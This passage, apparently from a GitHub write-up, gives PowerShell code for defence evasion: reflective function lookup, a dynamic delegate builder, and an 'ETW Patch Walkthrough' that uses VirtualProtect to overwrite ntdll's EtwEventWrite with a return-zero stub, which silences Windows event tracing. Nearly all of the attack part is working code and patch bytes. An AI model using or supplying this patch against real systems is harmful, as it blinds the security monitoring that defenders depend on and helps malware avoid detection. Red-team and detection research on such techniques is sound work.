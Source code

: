 ```powershell
        $null, [System.Type[]] @([IntPtr],[String]), $null)

    return $getProcAddr.Invoke($null, @($hModule, $functionName))
}
```

### `getDelegateType` – Dynamic Delegate Builder

Creates a runtime delegate matching an unmanaged function prototype signature so we can call exports like `VirtualProtect` directly.

```powershell
function getDelegateType {
    Param (
        [Parameter(Mandatory = $True, Position = 0)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )

    $type = [AppDomain]::CurrentDomain
        .DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
            [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
        .DefineDynamicModule('InMemoryModule', $false)
        .DefineType('MyDelegateType','Class,Public,Sealed,AnsiClass,AutoClass',[System.MulticastDelegate])

    $type.DefineConstructor('RTSpecialName,HideBySig,Public',
        [System.Reflection.CallingConventions]::Standard,$func) | Out-Null
    $type.DefineMethod('Invoke','Public,HideBySig,NewSlot,Virtual',$delType,$func) | Out-Null

    return $type.CreateType()
}
```

---

## ETW Patch Walkthrough

**Goal:** Overwrite `EtwEventWrite` in `ntdll.dll` with a tiny stub that clears `RAX` (return 0 / success code) and returns immediately, effectively short‑circuiting many ETW event writes triggered through user‑mode.

**Patch Bytes:**

```
0x48, 0x33, 0xC0, 0xC3   ; xor rax, rax ; ret
```

**Script Skeleton:**

```powershell
[IntPtr]$funcAddr = LookupFunc ntdll.dll EtwEventWrite
$oldProtectionBuffer = 0

$vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (LookupFunc kernel32.dll VirtualProtect),
    (getDelegateType @([IntPtr],[UInt32],[UInt32],[UInt32].MakeByRefType()) ([Bool])) )

# Make memory RWX, write patch, restore RX
$vp.Invoke($funcAddr, 4, 0x40, [ref]$oldProtectionBuffer)   # PAGE_EXECUTE_READWRITE
$buf = [Byte[]](0x48,0x33,0xC0,0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 4)
$vp.Invoke($funcAddr, 4, 0x20, [ref]$oldProtectionBuffer)   # PAGE_EXECUTE_READ
```
